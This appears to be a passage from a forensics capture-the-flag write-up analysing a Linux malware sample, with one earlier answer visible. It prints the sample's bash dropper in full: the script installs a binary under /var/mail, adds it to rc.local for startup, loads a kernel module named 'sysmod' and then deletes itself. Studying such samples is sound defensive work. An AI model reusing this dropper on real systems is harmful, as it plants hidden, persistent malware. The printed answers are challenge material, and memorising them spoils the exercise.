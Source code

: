 ![](./img/http_files.png)

**Answer : 3**

### Q9 - What is the main malware MD5 hash?

```shell
file *          
1:                                                          ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header
2:                                                          ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=21064e0e38e436aa28aecd2612f20205977b3826, with debug_info, not stripped
3:                                                          Bourne-Again shell script, ASCII text executable
```

```shell
cat 3

#!/bin/bash

mv 1 /var/mail/mail
chmod +x /var/mail/mail
echo -e "/var/mail/mail &\nsleep 1\npidof mail > /proc/dmesg\nexit 0" > /etc/rc.local
nohup /var/mail/mail > /dev/null 2>&1&
mv 2 /lib/modules/`uname -r`/sysmod.ko
depmod -a
echo "sysmod" >> /etc/modules
modprobe sysmod
sleep 1
pidof mail > /proc/dmesg
rm 3
```
